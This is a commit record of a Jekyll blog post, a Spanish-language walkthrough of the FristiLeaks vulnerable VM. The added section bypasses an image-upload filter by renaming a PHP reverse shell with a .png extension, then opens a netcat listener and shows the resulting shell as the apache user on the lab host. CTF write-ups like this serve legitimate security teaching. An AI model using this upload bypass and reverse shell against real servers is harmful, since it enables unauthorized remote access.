

Before and after one commit to pgrandoli/pgrandoli.github.io, a Jekyll site: the page built from _posts/2020-02-06-Fristileaks-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 6699 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 7019 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-02-06-Fristileaks-Walkthrough.md
+++ b/_posts/2020-02-06-Fristileaks-Walkthrough.md
@@ -236,7 +236,63 @@ Si pruebo de loguearme con esa credenciales tengo éxito y se presenta la siguie
 
 ---
 
-### **Protocolo SSH**
+Genial. ¿De que sirve poder subir un archivo de imágen a un servidor? No sirve de mucho a menos que en vez de una imágen se pueda subir algo que se ejecute del lado del servidor. Por ejemplo una shell reversa de PHP, si la persona que programó el archivo ``upload.php`` se puso las pilas entonces al tocar el botón ``Upload Image`` se debería validar que no estoy subiendo nada más que un archivo de imagén:
+
+---
+
+![img]({{ '/assets/images/Fristileaks/upload_01.png' | relative_url }}){: .center-image }*(Tratando de subir una shell inversa en PHP)*
+
+---
+
+![img]({{ '/assets/images/Fristileaks/upload_02.png' | relative_url }}){: .center-image }*(Hubiera sido muy fácil...)*
+
+---
+
+Existen varias formas de validar el tipo de contenido que se está subiendo a un servidor, las que más he visto (en mi poca experiencia) son las que chequean la extensión o las que chequean el tipo de archivo que se está subiendo ([Magic Bytes](https://blog.netspi.com/magic-bytes-identifying-common-file-formats-at-a-glance/)).
+
+Hay un excelente [documento](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf) que las enumera, muestra el código detrás de cada una y muestra como hacer bypass.
+
+Voy a tener que usar **Burp Suite** para capurar el tráfico web entre las VM atacantes y victima y poder modificarlo.
+
+La opción más fácil fue agregarle la extensión .png ``php-reverse-shell.php``
+
+>**``cp php-reverse-shell.php php-reverse-shell.php.png``**
+
+Y al tratar de subir el archivo todo va Ok, el script de upload validaba la extensión de lo que se subía.
+
+---
+
+![img]({{ '/assets/images/Fristileaks/upload_03.png' | relative_url }}){: .center-image }*(Hubiera sido muy fácil...)*
+
+---
+
+Ahora solo resta acceder al link mencionado previamente habiendo abierto una sesiéon para recibir la conexión reversa con **Netcat**:
+
+>**``nc -nlvp 1234``**
+
+En el momento que se ingresa a **http://10.0.0.123/fristi/uploads/php-reverse-shell.php.png** se recibe la conexión!!
+
+```console
+Ncat: Version 7.70 ( https://nmap.org/ncat )
+Ncat: Listening on :::1234
+Ncat: Listening on 0.0.0.0:1234
+Ncat: Connection from 10.0.0.123.
+Ncat: Connection from 10.0.0.123:56200.
+Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
+ 12:49:30 up 21:00,  0 users,  load average: 0.00, 0.00, 0.00
+USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=48(apache) gid=48(apache) groups=48(apache)
+sh: no job control in this shell
+sh-4.1$ whoami
+whoami
+apache
+sh-4.1$ pwd
+/
+pwd
+sh-4.1$
+```
+
+
 ---
 
 
````
